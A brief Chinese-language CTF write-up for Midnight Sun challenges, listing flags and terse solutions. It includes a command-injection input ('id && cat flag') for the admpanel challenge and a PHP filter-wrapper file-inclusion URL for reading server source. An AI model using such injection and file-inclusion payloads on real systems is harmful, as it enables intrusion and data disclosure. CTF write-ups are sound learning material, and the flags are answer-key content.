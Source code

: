 # Writeup

## Sanity

签到题

> midnight{n0_c0ugh1ng_0n_1rc}

## Verifier

> 知识点：签名

> 题解

1. 对``please_give_me_the_flag``签名
2. 拿到签名，获取flag

> midnight{number_used_once_or_twice_or_more}

## admpanel

> 知识点：逆向、Linux &&拼接命令

> 题解

1. IDA pro逆向，拿到密码password
2. id && cat flag

> midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}

## 

存在PHP伪协议

http://hackingforso-01.play.midnightsunctf.se/?file=php://filter/convert.base64-encode/resource=ac86dff64d2296531a41bfa575cb1d33.php